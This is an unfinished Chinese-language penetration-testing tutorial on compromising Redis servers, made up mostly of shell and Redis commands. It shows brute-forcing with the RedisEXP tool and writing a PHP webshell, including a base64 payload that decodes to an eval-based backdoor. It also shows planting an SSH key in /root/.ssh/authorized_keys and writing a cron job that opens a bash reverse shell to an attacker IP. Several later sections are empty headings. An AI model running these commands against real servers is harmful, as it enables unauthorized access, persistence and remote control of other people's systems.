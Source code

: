 ## redis简介

* Redis的数据存储在内存中，读写速度极快，常用作缓存服务
* Redis支持多种数据类型，包括：
  - 字符串（String）
  - 列表（List）
  - 集合（Set）
  - 有序集合（Sorted Set）
  - 哈希（Hash）
  - 位图（Bitmap）
  - HyperLogLog
  - Streams
* Redis也支持数据持久化，可以将内存中的数据定期快照（RDB）或以追加方式记录（AOF），确保数据在系统崩溃后能够恢复
* 通过主从复制（Master-Slave Replication）和哨兵（Sentinel）模式，Redis可以实现高可用性，自动故障转移。主从复制也可被攻击者用于提权。
* Redis支持简单的事务机制，可以通过`MULTI`、`EXEC`和`DISCARD`命令实现多个操作的原子性
* Redis支持在服务器端执行Lua脚本，能够批量执行多个命令，提高效率

## 如何打入redis

### redis未授权访问

* Redis2.x和3.x版本在**默认情况下没有启用访问控制**，这意味着如果Redis实例没有经过适当配置，任何人都可以通过网络连接访问Redis，并执行redis的命令
* 在高版本下，redis**默认情况下没有启用访问控制**，但是默认开启protected-mode：
  * 默认只能本地访问
  * 如果开启远程访问，必须设置密码


在实战过程中很容易判断redis是否启用访问控制，所以这里不再复现

### redis爆破

如果redis开启了访问控制，最直接获取其权限的方式就是爆破，这里推荐使用工具[yuyan-sec/RedisEXP: Redis 漏洞利用工具 (github.com)](https://github.com/yuyan-sec/RedisEXP)，这是一个redis的综合利用工具，除了这里的爆破，后面还会用到它

```shell
# 爆破redis
RedisEXP_windows_amd64.exe -m brute -r 192.168.110.179 -p 6379 -f pass.txt
```

* redis原生是没有用户名 - 密码认证模式的，默认情况下只有密码没有用户名

### ssrf打redis

### redis注入命令

## 拿到redis权限后如何进一步提权

基本上分为三类：

* 利用redis写数据备份文件实现任意文件写，除了下面三个例子外，还可以写/etc/passwd等（写入时的乱码对我们可能有一些限制）
* 主从复制
* cve lua脚本的沙箱逃逸

### 写webshell

* 条件：
  * 知道网站绝对路径
  * 可以任意写文件
    * 需要该目录下的增删改查权限（这个一般需要redis以root权限运行或者于web服务器以相同的用户权限运行，还要防止selinux等一些权限控制系统，我在实验时通过apt包管理安装的redis默认运行在自动创建的用户redis下）
    * 在6.x版本及以后，需将配置文件中的enable-protected-configs设置为yes，这个配置默认为no限制了我们使用config set dir

这里搭建了一个简单的php站点，路径在`/www/wwwroot/192.168.110.177`下

```shell
# 设置要写入shell的路径
config set dir /www/wwwroot/192.168.110.177
# 对一个key写入webshell
set webshell "\n\n\n<?php phpinfo() ;?>\n\n\n"
# 持久化文件的文件名
config set dbfilename phpinfo.php
# 保存key
save
```

这里一般写入长度较短的小马没啥问题，要是写入的webshell长度过长，可能会遇到一些问题：

[原创 Paper | Windows 与 Java 环境下的 Redis 利用分析 (qq.com)](https://mp.weixin.qq.com/s/f7hPOoSSiRJpyMK51_Vxrw)

* 工具

```shell
# -s后是写入的内容的base64，-b是解码选项
# 这个命令应该是比较通用的，写任意文件，不止写webshell
RedisEXP_windows_amd64.exe -m shell -r ip -p port -w password -rp /website/path -rf webshellfilename -s XG5cblxuPD9waHAgZWNobyBldmFsKCRfR0VUWydzaGVsbCddKTs/PlxuXG5cbg== -b
```

### 写ssh-keygen公钥

* 和写webshell一样指定目录写文件的权限
* 目标开放ssh服务，而且允许使用秘钥登录

我们在攻击机上通过ssh-keygen -t rsa生成我们的证书，下图的id_rsa.pub就是公钥

![image-20241014165628535](./images/image-20241014165628535.png)

.ssh一般在~/.ssh，每个用户都有自己的专属目录，这里我们简单介绍一下.ssh目录下的文件：

* id_rsa，私钥文件，ssh服务端用它相对应的公钥来验证用户是否合法
* id_rsa，公钥文件
* known_hosts，存储客户端曾经连接过的ssh服务器主机信息
* authorized_keys，存放允许连接到服务器的客户端公钥，可以存放多个公钥
* config，自定义ssh客户端配置

```shell
# 这一步有时候有权限也不成功，可能是由于该目录不存在
config set dir /root/.ssh
config set dbfilename authorized_keys
# .....替换为ssh证书的公钥
# 这里有一个坑点，我们需要\n防止乱码的影响，但在redis-cli的交互模式下，\n不会被解析为换行，我们可以通过脚本或者echo "\n"|redis-cli set xxx来实现
set xxx "\n......\n"
save
```

* 工具

```shell
# 公钥两边的引号不要省略
RedisEXP_windows_amd64.exe -m ssh -r ip -p port -w password -u user -s "自己的公钥"
```

### 写计划任务

* 指定目录写文件的权限

* 系统限制

  * 这里在网上看到一些文章说ubuntu不适用而centos适用，因为
    * ubuntu的计划任务在/var/spool/cron/crontabs/下，要求权限为600才能正确被执行，而redis写入文件默认为644，centos则没有这个要求
    * centos的计划任务中可以有乱码，而ubuntu不行
  * 对于权限问题，ubuntu在/etc/cron.d目录下也可以写，而且没有权限限制
  * 但是对于乱码问题，Ubuntu对于定时计划有严格的格式要求，这里无法解决。

  ![image-20241014200637081](./images/image-20241014200637081-1728907602573-1.png)

```shell
#设置保存路径，centos的计划任务路径
config set dir /var/spool/cron/crontabs/ 
config set dbfilename shell 
#反弹shell
set xz "\n * bash -i >& /dev/tcp/192.168.33.131/8888 0>&1\n" 
```

* 工具

```shell
RedisEXP_windows_amd64.exe -m cron -r 目标ip -p 目标端口 -w password -L 反连ip -P 反连端口
```

### redis主从复制getshell

#### 远程主从

#### 本地主从

### CVE-2022-0543

## 其他用法

* 探测目录
  * 利用config set dir，前提是有权限，若目录不存在会返回`(error) ERR Changing directory: No such file or directory`

## 工具分析



## 实战案例

### redis到shiro反序列化

